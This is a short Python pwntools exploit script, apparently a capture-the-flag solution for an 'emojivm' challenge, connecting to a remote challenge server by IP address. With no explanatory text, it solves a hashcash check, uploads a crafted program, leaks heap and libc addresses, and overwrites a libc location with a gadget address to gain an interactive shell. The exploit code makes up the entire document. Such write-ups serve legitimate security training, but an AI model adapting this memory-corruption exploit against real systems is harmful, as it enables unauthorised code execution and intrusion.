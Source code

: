 ```python
from pwn import *

context.log_level='debug'

#c = process(['./emojivm','prog'])
#pause()
c = remote('3.115.176.164', 30262)
c.recvuntil('\nhashcash ')
args = c.recvline().strip()

print args.split(' ')
pause()
hh = process(['hashcash']+args.split(' '))
hh.recvuntil('token: ')
token = hh.recvline()

c.sendafter('token:', token)

with open('prog') as f:
    code = f.read()

c.sendlineafter('size: ( MAX: 1000 bytes )', str(len(code)))
c.sendafter('file:',code)

c.send('/bin/sh\x00')

leak = c.recvrepeat(timeout=2)
leak = leak.strip().ljust(8,'\x00')
heap = u64(leak)
print hex(heap)

heap -= 0x3600
print hex(heap)

#pause()

p = p64(0x1000)+p64(heap+0x68)
c.send(p)

#leak = c.recv(6)
leak = c.recvrepeat(timeout=2)
leak = leak.strip().ljust(8,'\x00')
libc = u64(leak)-0x3ebca0
print hex(libc)

#p = p64(0x8)+p64(libc+0x3ebc30)
p = p64(0x8)+p64(libc+0x3ed8e8)
c.send(p)

p = p64(libc+0x4f322)
c.send(p)

c.interactive()
```
